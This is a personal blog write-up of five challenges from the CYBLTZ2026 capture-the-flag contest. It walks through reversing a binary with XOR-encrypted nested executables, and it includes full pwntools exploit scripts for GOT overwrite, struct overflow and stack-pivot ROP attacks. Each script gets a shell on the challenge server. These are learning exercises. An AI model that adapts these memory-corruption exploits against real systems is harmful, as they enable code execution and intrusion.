


<style>
img {
    display: block !important;
    max-width: min(100%, 600px) !important;
    width: auto !important;
    height: auto !important;
    margin: 1rem auto !important;
    border-radius: 8px;
    box-shadow: 0 2px 8px rgba(0, 0, 0, 0.1);
}

@media (max-width: 600px) {
    img {
        max-width: 95% !important;
        max-height: 300px !important;
        object-fit: contain !important;
    }
}
a {
    word-wrap: break-word !important;
    display: inline-block !important;
    max-width: 100% !important;
    overflow: hidden !important;
    text-overflow: ellipsis !important;
}
</style>

It's been a while since I've done a ctf, and once I started uni I finally got a chance to get off my ass and touch up on pwn more. it's pretty fun when you're not aiming to win! not like it matters now, because the concept of winning and learning in a CTF are diametrically opposed now with gpt slop. but i'd say that using it to explain stuff to me as I whack stuff myself is still pretty fun

I managed to get 3 challs done during the CTF, then 2 more after it ended. Let's go in order of difficulty...

## fraude
this is a really funny medium rev chall. basically you get a c binary and it seems to run some calculations with 25 subagents to give the Bestest Answer ever. but how do you get a flag from this? let's see!

cracking open IDA and tracing some function calls, it's a ncurses binary that spawns subagents. but where from memory? `sub_2379` seems particularly interesting:



so we go there...

```c
__int64 __fastcall sub_2379(__int64 a1, __int64 a2, __int64 a3)
{
  __int64 result; // rax
  __int64 i; // [rsp+20h] [rbp-8h]

  for ( i = 0; ; ++i )
  {
    result = i;
    if ( i >= a3 )
      break;
    *(_BYTE *)(i + a2) = (i + aFraudecodechud[i % 32]) ^ *(_BYTE *)(i + a1);
    // aFraudecodechud db 'FraudeCodeChudGPTv6.7_AgentKey!!',0
  }
  return result;
}
```

ah! it does some xor encryption with a hardcoded key.!! 
so just reimplement in python...

```python
from pathlib import Path

binary = Path("./fraude").read_bytes()

key = b"FraudeCodeChudGPTv6.7_AgentKey!!"

start = 0x42B0
end = 0x69300

encrypted = binary[start:end]

decrypted = bytes(
    byte ^ ((i + key[i % 32]) & 0xff)
    for i, byte in enumerate(encrypted)
)

Path("subagent").write_bytes(decrypted)

print(decrypted[:16])

```

and here we see subagent written out as an ELF binary, as expected! normally it'd end here with the flag being spawned here, but no! there are SUBSUBagents .

throw it into ida, main():



fuckkk wdym there are 25 subsubagents!! ok that's fine lets just do this shit again

find the lengths from the hexdump, just eyeball to see when the ELF thing shows up. then see when the other one shows up. that's 1 length, then x25 to get all the binaries...

```python
from pathlib import Path

binary = Path("subagent").read_bytes()
base = 0x400000
start = 0x402010 - base
end = 0x463450 - base

blob = binary[start:end]


length = len(blob) // 25

for i in range(25):
    chunk = blob[i * length:(i + 1) * length]
    Path(f"subsubagent_{i}").write_bytes(chunk)

    print(i, chunk[:4])

```


so now we have 25 subsubagents. FINALLY surely there can't be more. and yeah you're right!

here is subsubagent 0:

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  unsigned int v4; // [rsp+18h] [rbp-18h]
  int i; // [rsp+1Ch] [rbp-14h]
  int j; // [rsp+20h] [rbp-10h]
  int k; // [rsp+24h] [rbp-Ch]

  if ( argc != 2 )
    return -1;
  if ( strlen(argv[1]) != 4 )
    return -1;
  v4 = *(_DWORD *)argv[1];
  for ( i = 13; i > 1; --i )
    v4 ^= v4 >> i;
  for ( j = 25; j > 1; --j )
    v4 ^= v4 << j;
  for ( k = 7; k > 1; --k )
    v4 ^= v4 >> k;
  if ( v4 == -1102587745 )
    return 0;
  else
    return -1;
}
```

i went to check 24 and 1, they all do the same xor + bitshifting magic. so there's an idea:

1. objdump everything
2. regex the relevant logic
3. take the bits, undo the bitshift logic
4. add everything together

gpt whipped up a solve for this:

```python
import re
import subprocess
from pathlib import Path

MASK = 0xFFFFFFFF

def undo_rshift(x, n):
    shift = n
    while shift < 32:
        x ^= x >> shift
        shift *= 2
    return x & MASK

def undo_lshift(x, n):
    shift = n
    while shift < 32:
        x ^= (x << shift) & MASK
        shift *= 2
    return x & MASK

def decode(target):
    x = target & MASK

    for k in range(2, 8):
        x = undo_rshift(x, k)

    for j in range(2, 26):
        x = undo_lshift(x, j)

    for i in range(2, 14):
        x = undo_rshift(x, i)

    return x.to_bytes(4, "little")

def get_target(path):
    output = subprocess.check_output(
        ["objdump", "-d", "-M", "intel", str(path)],
        text=True
    )

    matches = re.findall(
        r"\bcmp\s+(?:eax|DWORD PTR \[rbp-[^\]]+\]),\s*(0x[0-9a-f]+)",
        output,
        re.I
    )

    candidates = [
        int(x, 16) for x in matches
        if int(x, 16) > 0xFFFF
    ]

    if len(candidates) != 1:
        raise ValueError(f"{path}: candidates = {candidates}")

    return candidates[0]

flag = b""

for i in range(25):
    path = Path(f"subsubagent_{i}")
    target = get_target(path)
    chunk = decode(target)

    print(f"{i:02d}: {target:#010x} -> {chunk!r}")
    flag += chunk

print(flag)
# CYBLTZ2026{please_bro_just_ten_more_subagents___please_just_five_million_dollars_more_in_tokens_bro}

```

if a chud like me half gpting stuff can get the flag, imagine what the sub sub agents everyone else is using can do :winkwonk 

## prims
this one is pretty interesting, you get the ability to read/write to anywhere, and there's only partial RELRO and no PIE. so ret2libc was possible. i think most people did this (incl. me) but it turned out it wasn't the actual intended solution (which i couldn't get :P)

the code is pretty simple:
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void arbread(void) {
  unsigned char* loc;
  printf("[?] address > ");
  read(0, &loc, sizeof(loc));
  printf("[!] arbread: ");
  for (int i = 0; i < 8; i++) {
    printf("%02x", loc[i]);
  }
}

void arbwrite(void) {
  unsigned char* loc;
  printf("[?] address > ");
  read(0, &loc, 8);
  printf("[?] write > ");
  read(0, loc, 8);
  puts("arbwrite done!");
}

void menu(void) {
  char c;
  puts("[1] arbread");
  puts("[2] arbwrite");
  puts("[anything else] quit");
  printf("option > ");
  c = getc(stdin);
  getchar(); // exhaust newline
  switch (c) {
    case '1':
      arbread();
      break;
    case '2':
      arbwrite();
      break;
    default:
      exit(0);
  }
}
int main(void) {
  setbuf(stdin, NULL);
  setbuf(stdout, NULL);

  puts("welcome to the great primitivizatinator!");
  while (1) menu();
}

```

note here that in order to read and write, you can't overwrite read OR write if not it'd just blow up instantly :c it's probably a better idea to overwrite... something like getc(stdin)! you know since it already takes in an arg so nicely :)

the plan is thus to overwrite `getc@GOT` to `libc system` and stdin to `/bin/sh` . but remember, because stdin will be fucked up, there won't be any way to write after the first write, because `menu()` wants something from stdin. 

you'd thus have to write 2 things at once. luckily, `exit` exists and can be written to point into another `arbwrite` call!

so... what to do?
steps:
1. find a libc address (like printf or puts) using the arbread, then calculate the slide 
2. write over exit with arbwrite
3. write over stdin with `/bin/sh`
4. exit → jumps to arbwrite
5. write over getc with system()
6. next `option >` call jumps to shell :D 

solve:

```python
from pwn import *

context.binary = elf = ELF("./main")
libc = ELF("./libc.so.6")
ld = "./ld-linux-x86-64.so.2"

# p = remote("45.77.247.35", 22003)
p = process([ld, "--library-path", ".", "./main"])

p.recvuntil(b"option > ")
p.sendline(b"1")
p.recvuntil(b"address > ")
p.send(p64(elf.got["printf"]))
p.recvuntil(b"arbread: ")

leak = u64(unhex(p.recv(16)))

libc.address = leak - libc.symbols["printf"]

binsh = next(libc.search(b"/bin/sh"))
system = libc.symbols["system"]


def arbwrite(addr, val):
    p.recvuntil(b"option > ")
    p.sendline(b"2")
    p.recvuntil(b"address > ")
    p.send(p64(addr))
    p.recvuntil(b"write > ")
    p.send(p64(val))


arbwrite(elf.got["exit"], elf.symbols["arbwrite"])

arbwrite(0x404060, binsh)  # stdin

p.recvuntil(b"address > ")
p.send(p64(elf.got["getc"]))
p.recvuntil(b"write > ")
p.send(p64(system))

p.recvuntil(b"option > ")
p.interactive()

# CYBLTZ2026{c10aafab12aff2a722e312825dfdb78055453e481ca4bf0d1613fc04134b768d}

```


## prims-revenge )unsolved(
this time, there's full RELRO, so you can't just cheese by doing the same got overwrite trick.. but what you CAN write here is even worse!

i didn't know about this until now, but it turns out stdin and stdout are `FILE*` structs. so what ts means is that each file struct contains a vtable, which is invoked automatically when exiting or whatever. it's been partially patched in glibc 2.23 and this is 2.29, so there are ofc other targets in a file struct that contain vtables which you can write and autoinvoke.

this uhhhh i never figured out to solve because i couldnt be bothered to figure out the file struct :c mebbe when im free next time

## lean proofs
this one seems to be some kind of math prover in C. it uses a struct and a vtable to call different functions depending on the input you give

here's a shortened version of it without the extra puts() calls, and also it takes in left_operand and right_operand inputs (not important here)

```c
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <unistd.h>
#include <math.h>

int proof_by_intimidation(const char* proof) {
  if (!proof) return 1;
  puts("THE PROOF HAS COMPLETED. PLEASE DO NOT ASK ANY MORE QUESTIONS.");
  return 0;
}

int proof_by_confusion(const char* proof) {
  if (!proof) return 1;
  puts ("ough.. i don't know...");
  return 0;
}

int proof_by_invigilation(const char* proof) {
  if (!proof) return 1;
  puts("You must update Examena to view this proof.");
  return 0;
}

int (*proofs[4])(const char*) = {
  proof_by_intimidation,
  proof_by_confusion,
  proof_by_invigilation,
  puts
};

struct vtable {
  char lemma[0x200];
  unsigned long long left_operand;
  unsigned long long right_operand;
  int (*proof)(const char*);
};

int main(void) {
  unsigned int c;
  setbuf(stdin, NULL);
  setbuf(stdout, NULL);

  while (1) {
    struct vtable *a = malloc(sizeof(*a));

    printf("specify proof method > ");
    c = getc(stdin) - 49; // ord('1')
    getchar(); // newline
    
    if (c > 4) exit(1);
    a->proof = proofs[c];
    
    printf(" enter your lemma > ");
    read(0, a->lemma, sizeof(*a)); // sizeof(*a) is larger than sizeof(a->lemma)


    printf("YOUR LEMMA: %s\n", a->lemma); // infoleak of puts!!
    getchar();

    a->proof(a->lemma);

    free(a);
  } 
}
```

ok great! so note the comments i made. there's things that are whack af here

1. `sizeof(*a)` is the size of the whole struct, which is `0x218`. the input is supposed to be `0x200`. uh oh !! read() reads extra into the rest of the struct! not a stack overflow, just struct overflow

ok great, i can write over something, but what? and where?

2. the vtable here contains puts. like not a proper function, just puts. and it works because for vtables, the only thing that matters is the function signature

puts returns an integer and takes in a const char*, which everything in the `proofs` array does as well, so it's OK.

3. using this, it's possible to leak the address of `puts`, which is thus a libc address! yippee! how?

just send `0x210` bytes (0x200 lemma + 0x8 left_operand + 0x8 right_operand), and printf will only stop when reaching a nullbyte. since there's no nullbyte in our 0x200 As, the remaining will get leaked out when it printfs' it out until it encounters one

4. loopback to the lemma call, it's time to overwrite struct to jump to `system(/bin/sh)` instead of the vtable.

structs are laid out from top to bottom in how they're declared...

so:

```python
payload = flat(b"/bin/sh\x00".ljust(0x200, b"A"), p64(0), p64(0), p64(system))
```

is laid out to be:
```
/bin/sh\0AAAAA...., (a→lemma)
0, (left operand)
0, (right operand)
system() (a→proof)
```
so it'll print lemma out, terminate, then take in system(/bin/sh)

solution:
```python
from pwn import *

libc_path = "./libc.so.6"
ld_path = "./ld-linux-x86-64.so.2"

elf = context.binary = ELF("./proof")
libc = ELF(libc_path)

p = process(
    [
        ld_path,
        "--library-path",
        ".",
        elf.path,
    ]
)

p = remote("45.77.247.35", "22002")
p.recvuntil(b"left operand > ")
p.sendline(b"0")
p.recvuntil(b"right operand >")
p.sendline(b"0")

p.recvuntil(b"proof method >")
p.sendline(b"4")  # idk if putting 5 is useful here since it just jumps into bullshit


p.recvuntil(b"lemma > ")
# write sizeof vtable into sizeof lemma, so a bit extra which overwrites back into the top

payload = flat(b"A" * 0x200, b"B" * 0x10)

p.send(payload)
# i have no idea why this puts leak is so fuckin weird ngl like why is it 0x229 instead of 0x210
p.recvn(0x229)
leak = u64(p.recvn(6).ljust(8, b"\x00"))
print(hex(leak))

p.sendline()
p.recvuntil(b"left operand > ")
p.sendline(b"0")
p.recvuntil(b"right operand >")
p.sendline(b"0")

p.recvuntil(b"proof method >")
p.sendline(b"4")  # idk if putting 5 is useful here since it just jumps into bullshit

p.recvuntil(b"lemma > ")

libc.address = leak - libc.sym.puts
system = libc.sym.system
# the function is at the bottom, but it calls lemma, so we still need to provide a valid null byte terminated call to shell then the overwrite
payload = flat(b"/bin/sh\x00".ljust(0x200, b"A"), p64(0), p64(0), p64(system))
print(len(payload))
p.sendline(payload)
p.interactive()

```

## rop2impress

ts is the most cursed shit ever that i only managed to solve 1 day after the ctf ended

it is DECEPTIVELY simple which makes it the hardest thing to ever pwn

```c
#include <stdio.h>
#include <unistd.h>

void gift(void) {
  __asm__("pop %rbx; ret");
  __asm__("pop %rsp; ret");
}

void rop(void) {
  char buf[0x50];
  read(0, buf, 0x60);
  if (!buf[0]) rop();
  return;
}

int main(void) {
  rop(); 
}
```

THAT'S ALL. you might thing ok maybe you can SROP, no! there's no syscall here! (wink wink)

maybe there's a pop rdi ret gadget?? NO!! there's nothing, no system, no /bin/sh, no libc leak! only read()

what's the trick here?

disassembling it:
(ok im sorry for the scary at&t syntax but im lazy)
```bash
lea    -0x50(%rbp),%rax -> ???
mov    $0x60,%edx
mov    %rax,%rsi
mov    $0x0,%edi
call   401030 <read@plt> -> edit this?
movzbl -0x50(%rbp),%eax

```

ok, maybe god isn't dead, we can still write to rbp and rip, AND!!

note that the `rbp-0x50` address is passed into `rsi` for read() to read from. That Means! if you can change rbp (which we can), you can choose WHERE on the buffer to write to!! so you can choose:

1. where to write your bytes to
2. when to jump to them

```
Original stack
┌──────────────────────────┐
│ buf[0x50]                │
├──────────────────────────┤
│ saved RBP = 0x403850     │
├──────────────────────────┤
│ saved RIP = read_setup   │
└──────────────────────────┘
             │
             │ leave; ret
             ▼
read_setup:
    lea rsi, [rbp-0x50]
    call read

             │
             ▼
.bss
0x403800 ┌─────────────────┐
         │ controlled data │ ◀── read() writes here
         │ fake ROP chain  │
         └─────────────────┘

```

not so joever after all! possible to stack pivot !! but after writing fakestack, it's still needed to jump somewhere.

let's just keep jumping back to read() for now...

but first, what ROP chain can you build with only read?!?!?!

**partial GOT overwrites**

lets see the only hint we have left... read()...

```bash
pwndbg> disas read
Dump of assembler code for function __GI___libc_read:
    0x00007ffff7d1ba80 <+0>:     endbr64
    0x00007ffff7d1ba84 <+4>:     cmp    BYTE PTR [rip+0xef5b5],0x0        # 0x7ffff7e0b040 <__libc_single_threaded_internal>
    0x00007ffff7d1ba8b <+11>:    je     0x7ffff7d1baa0 <__GI___libc_read+32>
    0x00007ffff7d1ba8d <+13>:    xor    eax,eax
    0x00007ffff7d1ba8f <+15>:    syscall <- change 80 to 8f, so we directly jump to it with rax controlled with a previous read
```

wow!! read is a syscall! who would have guessed! yes, so what's important is that: between 80 and 8f, only 1 byte write is needed to jump there. so if you can set RAX, you can set whatever syscall u want to jump to! now the last part: how do you set RAX ???

ofc, it's by using read!

remember, read() returns into RAX the number of bytes read. so, there's a plan now to leak a libc address :)

1. overwrite `read@got` so it points to `read+0xf`, the `syscall` instruction
2. use a normal `read()` to read exactly 1 byte, setting `rax = 1`
3. return into our modified `read@plt`, which now executes `write()` instead

when we redirect that call into `write()`, it effectively becomes:

```c
write(0, rbp - 0x50, 0x60);
```

this won't work if fd 0 is a pipe instead of a bidirectional socket (which thank god it is on remote)...

so now given a libc leak, it's possible to change `rbp-0x50` and rip to something interesting, like a system(/bin/sh) or execve, then it does the thing for me :> 

However.

once you write over read(), the buffer overflow is gone. so that has to be the LAST step, before jumping to the rop chain to /bin/sh. this is where i prewrite 3 different payloads to jump everywhere. yippee!! 

### sequence

**payload 1:** send a null byte to trigger recursion, now have two `rop()` frames on the stack

**payload 2:** overflow the inner frame, overwriting its saved `rbp` with `0x403850` and its `rip` with `0x401139`, the start of the `read()` setup code.

**payload 2.5:** since `rbp - 0x50 = 0x403800`, the next read lands in `.bss`. here we construct the ROP chain that will eventually leak libc (eg. run read() twice), also set up another fake frame to continue execution

**payload 3:** write another fake stack at `0x403368`, along with saved frame pointers and return addresses around `read@got`. this lets us redirect execution into the GOT region, perform the partial overwrite, and pivot back into the ROP chain we wrote earlier

finally finally, payload4 is where the jump to execve(/bin/sh) is!

```python
libc.address = u64(leak[:8]) - libc.sym["read"] - 0xF

rop2 = ROP(libc)
print(f"libc leak {hex(libc.address)}")
# wndbg> x/16i 0x0b5dd0
#    0xb5dd0 <__GI___strverscmp+272>:	xor    edx,edx
#    0xb5dd2 <__GI___strverscmp+274>:	mov    eax,edx
#    0xb5dd4 <__GI___strverscmp+276>:	ret
# syscalls: rax number, rdi filename, rsi argv, rdx envp, rip addr
funnygadget = 0x0B5DD0
payload4 = flat(
    libc.sym["read"] + 0xF,
    rop2.find_gadget(["pop rdi", "ret"]).address,
    next(libc.search(b"/bin/sh\x00")),
    rop2.find_gadget(["pop rsi", "ret"]).address,
    0,
    # rop2.find_gadget(["pop rdx", "ret"]).address, apparently doesnt fuckin exist
    libc.address + funnygadget,
    rop2.find_gadget(["pop rax", "ret"]).address,
    59,
    libc.sym["read"] + 0xF,
)

```


there's no pop rdx ret, so just 0 it out with that funny ass gadget in libc :P whatever bruh

so this is just normal rop after all that fucking pain to leak a libc address, making it `execve(/bin/sh, 0, 0);

Can You Believe this shit works? me neither!! god damn it bruh istg 

full solve script:

```python
from pwn import *

elf = context.binary = ELF("./main")

libc = ELF("./libc.so.6")
# readelf -lW main
# 0x403368
# 0x403350
context.terminal = ["tmux", "splitw", "-h"]

gdbscript = """
set pagination off
b *0x40114f
continue
"""
p = remote("5.223.64.53", 22004)
# p = process(elf.path)
# p = gdb.debug(elf.path, gdbscript=gdbscript)
# stack pivot?
# w recursion somehow
# stack frame 1 recurses with first null byte into stack frame 2
# stack frame 1 sets rsp (for stack), rbp gadget, leave ret gadget
# ok, finally in stack frame 2, read() reads relative from rbp -0x50
# overwrite read partially
# wndbg> disas read
# Dump of assembler code for function __GI___libc_read:
#    0x00007ffff7d1ba80 <+0>:     endbr64
#    0x00007ffff7d1ba84 <+4>:     cmp    BYTE PTR [rip+0xef5b5],0x0        # 0x7ffff7e0b040 <__libc_single_threaded_internal>
#    0x00007ffff7d1ba8b <+11>:    je     0x7ffff7d1baa0 <__GI___libc_read+32>
#    0x00007ffff7d1ba8d <+13>:    xor    eax,eax
#    0x00007ffff7d1ba8f <+15>:    syscall <- change 80 to 8f, so we directly jump to it with rax controlled with a previous read
# big assumption: write(fd = 0) must be bidirectional, local blows up at receiving libc leak
# read returns into rax the number of bytes read. so read 1 byte
# pop shell

leaveret = 0x40115E
fakestack = 0x403368  # .bss start
read_setup = 0x401139
poprsp_ret = 0x40112C
# payload = b"\x00" + b"A"* (0x50-1)
# payload += p64(0x4141414141414141)
# payload += p64(0x4242424242424242)
# payload2 = b"C" * 0x50

payload1 = flat(
    b"\x00" + b"A" * 0x5F,
)

payload2 = flat(
    b"C" * 0x50,  # buffer
    p64(0x403800 + 0x50),  # rbp
    p64(read_setup),  # rip
)
# isas main
# Dump of assembler code for function main:
#    0x0000000000401160 <+0>:	push   rbp
#    0x0000000000401161 <+1>:	mov    rbp,rsp
#    0x0000000000401164 <+4>:	call   0x401131 <rop>
#    0x0000000000401169 <+9>:	mov    eax,0x0 <- rax zero
# also pop rbp ret, so add 8 bytes of bullshit to pad
zerorax_rbpret = 0x401169

# write payload that 3 will jump to here
payload25 = flat(
    zerorax_rbpret,
    b"P" * 8,
    elf.plt["read"],  # read 1 byte which ill send, set rax 1
    elf.plt["read"],  # syscall(1)) -> write
    zerorax_rbpret,
    b"X" * 8,
    elf.plt["read"],
    poprsp_ret,
    fakestack - 0x10,
    b"E" * 8,
    p64(fakestack + 0x50),
    p64(read_setup),
)

# remember the write is up:
# 0x0000000000401139 <+8>:     lea    rax,[rbp-0x50]
#   0x000000000040113d <+12>:    mov    edx,0x60
#   0x0000000000401142 <+17>:    mov    rsi,rax
#   0x0000000000401145 <+20>:    mov    edi,0x0
#   0x000000000040114a <+25>:    call   0x401030 <read@plt>
#   0x000000000040114f <+30>:    movzx  eax,BYTE PTR [rbp-0x50]
#

payload3 = flat(
    # b"D"
    # * 0x50,  # this has to be another stack which leads to smth else, if not it blows up after leave ret. this payload can leak libc
    #     wndbg> info reg
    # rax            0x8f                0x8f
    # rbx            0x7ffe6d83d758      0x7ffe6d83d758
    # rcx            0x7ff06751ba91      0x7ff06751ba91
    # rdx            0x60                0x60
    # rsi            0x403350            0x403350
    # rdi            0x0                 0x0
    # rbp            0x4444444444444444  0x4444444444444444
    # rsp            0x4033a8            0x4033a8
    # fake rbp, fake rip
    {
        elf.got["read"] + 0x50 - fakestack: p64(elf.got["read"] + 0x50),  # fake rbp
        elf.got["read"] + 0x58 - fakestack: p64(poprsp_ret),  # fake rip
        elf.got["read"] + 0x60 - fakestack: p64(
            0x403800
        ),  # jump here which payload 2.5 wrote
        0x50: p64(elf.got["read"] + 0x50),  # rbp
        0x58: p64(read_setup),  # rip
    },
    filler=b"D",
    length=0x60,
)
# goal: ?? i need to jump to the weird address with syscall, except with rax already set here
p.send(payload1)
print("payload2")
pause()
p.send(payload2)
print("payload25")
pause()
p.send(payload25)
print("payload3")
pause()
p.send(payload3)
print("1bytewrite")
pause()
p.send(b"\x8f")
print("setrax")
pause()
p.send(b"\x8f")

leak = p.recvn(0x60)
libc.address = u64(leak[:8]) - libc.sym["read"] - 0xF

rop2 = ROP(libc)
print(f"libc leak {hex(libc.address)}")
# wndbg> x/16i 0x0b5dd0
#    0xb5dd0 <__GI___strverscmp+272>:	xor    edx,edx
#    0xb5dd2 <__GI___strverscmp+274>:	mov    eax,edx
#    0xb5dd4 <__GI___strverscmp+276>:	ret
# syscalls: rax number, rdi filename, rsi argv, rdx envp, rip addr
funnygadget = 0x0B5DD0
payload4 = flat(
    libc.sym["read"] + 0xF,
    rop2.find_gadget(["pop rdi", "ret"]).address,
    next(libc.search(b"/bin/sh\x00")),
    rop2.find_gadget(["pop rsi", "ret"]).address,
    0,
    # rop2.find_gadget(["pop rdx", "ret"]).address, apparently doesnt fuckin exist
    libc.address + funnygadget,
    rop2.find_gadget(["pop rax", "ret"]).address,
    59,
    libc.sym["read"] + 0xF,
)

print("payload4")
pause()
p.send(payload4)

p.interactive()
# [*] Switching to interactive mode
# $ ls
# flag.txt
# ld-linux-x86-64.so.2
# libc.so.6
# main
# $ cat flag.txt
# CYBLTZ2026{5b7a9a9e58ee843e5909d3f00c5f90b639838af76d5f3358b955ed538fb813c2}

```


in conclusion, pwn is very cursed. i haven't even learned heap yet, so i'm not particularly looking forward to that. i also wanna learn about FSOP so we will see if i can revenge solve prims-revenge :) 

finals for cyberhats is in 1 month (as of this blogpost), so hopefully i can get good enough to solve challs without the big gipity handholding me along the way!
